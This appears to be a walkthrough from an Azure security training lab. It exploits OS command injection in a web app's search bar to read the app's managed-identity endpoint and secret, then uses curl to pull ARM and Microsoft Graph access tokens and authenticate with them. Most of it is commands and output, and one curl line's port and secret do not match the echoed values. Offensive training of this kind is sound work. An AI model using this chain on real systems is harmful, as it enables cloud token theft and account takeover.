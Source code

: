 - In the `Search bar` we can test payloads for OS command injection, like `whoami` that works in both Windows and NIX. We get a result back that confirms that commands can be executed.
- We can check whether this web app is run by a Managed Identity by checking the environment variables for the `IDENTITY_ENDPOINT` & `IDENTITY_HEADER` variables, using the payload `set`.
- Since we have direct command execution we can check the exact endpoint that we need to query to extract access tokens, using the following payloads.
	- `echo %IDENTITY_ENDPOINT%` -> `http://127.0.0.1:41307/msi/token/`
	- `echo %IDENTITY_HEADER%` -> `9A1B3F668D8248489268E9ABF1E385E1`

- We can now request the ARM Access Token for the Managed Identity.
`curl "http://127.0.0.1:41118/msi/token/?resource=https://management.azure.com&api-version=2017-09-01" -H secret:"AB7F89E1312D422D93C08D76294E1806" -o armtoken.txt`
- We can now read the ARM Access Token.
`type armtoken.txt`
- The result will look like this:
```json
{"access_token":"eyJ0...o5XLg","expires_on":"4/9/2024 3:51:44 PM +00:00","resource":"https://management.azure.com","token_type":"Bearer","client_id":"47E22161-9B25-4B1F-B588-7D4FEF809558"}
```

- We can also request the MS Graph Access Token for the Managed Identity by querying the correct endpoint.
`curl "http://127.0.0.1:41307/msi/token/?resource=https://graph.microsoft.com&api-version=2017-09-01" -H secret:"9A1B3F668D8248489268E9ABF1E385E1" -o msgraphtoken.txt`
- We can now read the MS Graph Access Token.
`type msgraphtoken.txt`

- We can now use those Access Tokens to authenticate to Azure as that Managed Identity.
```powershell
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> $armtoken = 'eyJ0e...o5XLg'
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> $msgraphtoken = 'eyJ0eX...SQWUjw'
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> Connect-AzAccount -AccessToken $armtoken -MicrosoftGraphAccessToken $msgraphtoken -AccountId 47E22161-9B25-4B1F-B588-7D4FEF809558                              

Account                              SubscriptionName TenantId                             Environment
-------                              ---------------- --------                             -----------
47E22161-9B25-4B1F-B588-7D4FEF809558                  e7ec98df-e820-4b81-9efd-1b14139b8061 AzureCloud
```

- We can extract the `TenantId` and more information using the command bellow (although we can see it in the result above as well).
```powershell
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> Get-AzContext | fl *

Name               : e7ec98df-e820-4b81-9efd-1b14139b8061 - 47E22161-9B25-4B1F-B588-7D4FEF809558
Subscription       : 
Account            : 47E22161-9B25-4B1F-B588-7D4FEF809558
Environment        : AzureCloud
Tenant             : e7ec98df-e820-4b81-9efd-1b14139b8061
TokenCache         : 
VersionProfile     : 
ExtendedProperties : {}
```

- We can also extract the information by decoding the access token leveraging the https://jwt.ms site.
